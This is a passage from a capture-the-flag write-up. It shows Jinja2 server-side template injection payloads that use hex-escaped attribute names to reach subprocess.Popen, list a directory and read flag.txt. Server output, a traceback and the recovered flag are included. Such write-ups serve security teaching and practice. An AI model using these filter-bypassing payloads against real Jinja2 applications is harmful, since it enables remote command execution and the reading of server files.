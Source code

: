We spotted **subprocess.Popen** at position 192, so next step is to craft the payload to call that method with the arguments. First locate the flag filename and then open it. 


```python
# Payload 10
()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(192)('ls')|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')
'''
flag.txt  server.py

Traceback (most recent call last):
  File "/home/ctf/server.py", line 8, in <module>
    print(Template("{{"+inputval+"}}").render())
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 1291, in render
    self.environment.handle_exception()
  File "/usr/local/lib/python3.9/dist-packages/jinja2/environment.py", line 925, in handle_exception
    raise rewrite_traceback_stack(source=source)
  File "<template>", line 1, in top-level template code
  File "/usr/local/lib/python3.9/dist-packages/jinja2/utils.py", line 84, in from_obj
    if hasattr(obj, "jinja_pass_arg"):
jinja2.exceptions.UndefinedError: 'None' has no attribute 'decode'
Connection closed by foreign host.
'''
```

<p align="center">
  <img src="/images/writeups/DefCamp2022/Misc/2_2_ls.png" width="100%"/>
</p>

With **ls** we listthe directory and spotted **flag.txt** file. Let's dump its content:

```python
# Final payload
()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(192)('cat flag.txt',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')

'''
CTF{3497acdc5cdb795851f334a6c8f401a1e2504b4d05283b6b599e7b6dc42cc200}
'''
```
